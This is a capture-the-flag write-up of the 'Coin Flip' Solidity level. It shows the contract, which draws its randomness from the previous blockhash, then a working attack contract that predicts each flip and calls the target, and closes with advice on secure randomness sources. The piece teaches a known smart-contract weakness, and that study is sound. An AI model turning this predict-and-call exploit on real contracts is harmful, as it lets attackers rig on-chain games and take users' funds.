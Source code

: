 # Coin Flip

## Challenge Statement

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

## Code Analysis

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins; // result accumulator
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  // Target function, the coin flip logic is pseudorandom, the input variables can be mirrored to calculate the next correct coinFlip.
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1))); // public blocknumber

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR); // FACTOR is public - visible by reading contract's source code
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Solution

With the pseudorandomness of the contract and the fact the source code can be read, we're able to quickly run the code before we submit the answer so we are correct each time.

Here's a hacky solution that I deployed via Remix to guess the correct coinflip...10 times!

```
pragma solidity ^0.6.0;

import 'github/OpenZeppelin/openzeppelin-contracts/contracts/math/SafeMath.sol';

interface OGCoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipHack {

  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address target = <target_contract_address>;

  function hack() public {
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;
      OGCoinFlip(target).flip(side);
  }
}
```

## Moral

Generating random numbers can be difficult in solidity, no native way and smart contracts are public - even local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).